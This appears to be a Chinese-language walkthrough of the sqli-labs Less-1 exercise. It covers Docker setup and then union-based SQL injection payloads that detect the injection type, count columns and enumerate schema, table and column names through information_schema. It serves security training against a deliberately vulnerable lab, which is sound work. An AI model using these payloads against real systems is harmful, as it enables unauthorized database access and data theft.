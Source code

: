 

![image-20241202203446278](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241202203446278.png)

## 环境搭建

```
docker pull acgpiano/sqli-labs
sudo docker run -dt --name sqli-lab -p 80:80 acgpiano/sqli-labs
```

## less-1 联合注入

判断注入类型

一个单引号报错，两个单引号不报错，判断可能是字符型

尝试闭合，成功没报错，为字符型

```
1' and '1'='1
```

判断字段数

```
1' order by 3--+
1' order by 4--+
1' group by 4--+
```

4报错，3不报错，判断字段数为3

联合注入

查询所有库名

```
-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+

information_schema 是存储所有表结构的数据库
information_schema.schemata 是存储数据库名字的表
```

查询所有表名

```
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

information_schema.tables 是存储所有表名的表
```

查询列

```
-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+

information_schema.columns 存储列的表
```
